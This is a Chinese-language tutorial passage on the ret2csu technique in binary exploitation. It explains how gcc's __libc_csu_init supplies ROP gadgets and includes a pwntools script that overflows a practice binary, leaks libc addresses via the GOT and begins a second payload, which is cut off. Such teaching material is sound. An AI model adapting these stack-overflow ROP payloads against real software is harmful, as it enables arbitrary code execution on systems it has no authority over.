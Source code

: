 因为程序在编译过程中会加入一些通用函数用来进行初始化操作（比如加载libc.so的初始化函数），所以虽然很多程序的源码不同，但是初始化的过程是相同的，因此针对这些初始化函数，我们可以提取一些通用的gadgets加以使用，从而达到我们想要达到的效果。默认gcc还会有如下自动编译进去的函数可以用来查找gadgets。
```
_init
_start
call_gmon_start
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
frame_dummy
__libc_csu_init
__libc_csu_fini
_fini
```
## 8.1. __libc_csu_init
一般来说，只要程序调用了libc.so，程序都会有这个函数用来对libc进行初始化操作。
```python
# encoding:utf-8
# objdump -d ./level5观察到的__libc_csu_init()
"""
  4011c8:       4c 89 f2                mov    %r14,%rdx
  4011cb:       4c 89 ee                mov    %r13,%rsi
  4011ce:       44 89 e7                mov    %r12d,%edi
  4011d1:       41 ff 14 df             callq  *(%r15,%rbx,8)
  4011d5:       48 83 c3 01             add    $0x1,%rbx
  4011d9:       48 39 dd                cmp    %rbx,%rbp
  4011dc:       75 ea                   jne    4011c8 <__libc_csu_init+0x38>
  4011de:       48 83 c4 08             add    $0x8,%rsp
  4011e2:       5b                      pop    %rbx
  4011e3:       5d                      pop    %rbp
  4011e4:       41 5c                   pop    %r12
  4011e6:       41 5d                   pop    %r13
  4011e8:       41 5e                   pop    %r14
  4011ea:       41 5f                   pop    %r15
  4011ec:       c3                      retq   
"""
from pwn import *
# 打开文件
libc = ELF('libc.so.6')
elf = ELF('level5')
p = process('./level5')
# 获取system函数的地址偏移
got_write = elf.got['write']
got_read = elf.got['read']
main_addr = 0x401153
p.recvuntil("\n")
# 通过漏洞利用打印出write函数的内存地址
# 136填充+返回地址+rbx+rbp+r12(rdi)+r13(rsi)+r14(rdx)+r15+retq
raw_input("")
payload1 = "A" * 136 + p64(0x4011e2) + p64(0) + p64(1) + p64(1) + p64(got_write) + p64(8) + p64(got_write) + p64(0x4011c8)
# 填充栈，返回主函数
payload1 += ("A" * 56 + p64(main_addr))
p.send(payload1)
write_addr = u64(p.recv(8))
print "write address:" + hex(write_addr)
system_addr = write_addr + (libc.symbols["system"] - libc.symbols["write"])
print "system address:" + hex(system_addr)
p.recvuntil("\n")
# 发送第二段payload，写入binsh
bss_addr = 0x0000000000404038
payload2 = "A" * 136 + p64(0x4011e2) + p64(0) + p64(1) + p64(0) + p64(bss_addr) + p64(16) + p64(got_read) + p64(0x4011c8)
```